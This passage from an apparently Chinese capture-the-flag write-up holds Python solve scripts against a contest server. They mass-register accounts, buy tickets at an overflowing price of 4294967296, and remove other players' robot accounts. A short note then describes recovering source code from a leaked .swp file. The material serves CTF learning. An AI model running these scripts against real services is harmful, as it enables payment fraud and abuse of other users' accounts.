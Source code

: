 ```python

  print session.get("http://117.51.147.155:5050/ctf/api/get_flag").content


def main():
  # 注册过快可能会被封
  register_login_get_ticket()
  delete_other()


if __name__ == '__main__':
  main()
```

学长的脚本
```python
import requests

import json
def reg():
  for i in range(0,1000):
      url = "http://117.51.147.155:5050/ctf/api/register?name=cic"+str(i)+"&password=12345678"
      html = requests.get(url)
      print(html.text)
def get_ticket(i):

      s = requests.session()
      s.get("http://117.51.147.155:5050/ctf/api/login?name=cic"+str(i)+"&password=12345678")
      html = s.get("http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967296")
      json1 = json.loads(html.text)
      ticketid = json1["data"][0]["bill_id"]
      html1 = s.get("http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id="+ticketid)
      html2 = s.get("http://117.51.147.155:5050/ctf/api/search_ticket")
      json2 = json.loads(html2.text)
      id = json2["data"][0]["id"]
      ticket = json2["data"][0]["ticket"]

      pack = {"id":id , "ticket":ticket}
      return pack
def del_people(id,ticket):
  s = requests.session()
  s.get("http://117.51.147.155:5050/ctf/api/login?name=cic&password=12345678")
  html = s.get("http://117.51.147.155:5050/ctf/api/remove_robot?id="+str(id)+"&ticket="+ticket)
  print(html.text)
if __name__ == '__main__':
  reg()
  #get_ticket()
  for i in range(0,1000):
      pack = get_ticket(i)
      id = pack["id"]
      ticket = pack["ticket"]
      print(id)
      print(ticket)
      del_people(id, ticket)
      #del_people(id,ticket)

```
## 滴
沙雕题目，要读取的文件``.practice.txt.swp``在线索网址的作者的另一篇博客中出现过，读取，获得源码，传递引用就可以了
## 图片上传
